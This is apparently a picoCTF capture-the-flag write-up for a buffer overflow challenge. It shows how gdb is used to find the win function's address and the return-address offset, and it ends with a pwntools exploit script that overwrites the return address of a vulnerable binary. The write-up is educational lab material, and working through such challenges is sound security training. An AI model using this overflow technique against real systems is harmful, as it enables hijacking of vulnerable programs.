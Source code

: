 # picoCTF Buffer Overflow 1

In this challenge we are supposed to use a buffer overflow to overwrite the return address and let it return to the win function. The first thing I did was looking at the source code.

Here we could see the function "vuln" that uses the dangerous function gets. Gets does not check if our input exceeds the buffer size. With that we can create a buffer overflow. After the gets Function the function "get_return_address()" is called. So we basically just need to supply enough characters until we hit the return address.

Now we can open the binary in gdb and examine the function addresses with the command:
`info function`
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/a544dd2c-56e8-416b-a763-9f76a9f3eda2)

We can see that the address of the win function is 0x080491f6. After that I just disassembled the get_return_address function and set a breakpoint at the `mov eax, DWORD PTR [ebp+0x4]` instruction. Now i just supply a couple of 'AAAA' as our input and examined the stack with `x/20wx $esp`. The return address is placed in `DWORD PTR [ebp+0x4] (0xffffd0cc)`. Now we can just check how many char's as padding are needed to be supplied and then we can overwrite the return address.

I wrote a simple and shitty python script to do that for me and get the flag:

```
import os
import sys
from pwn import *

payload = b'A' * 44

payload += p64(0x080491f6)

p = remote(#HOSTADDRESS, #PORTNUMBER)
p.recvuntil('Please enter your string:')
p.sendline(payload)
p.interactive()
```
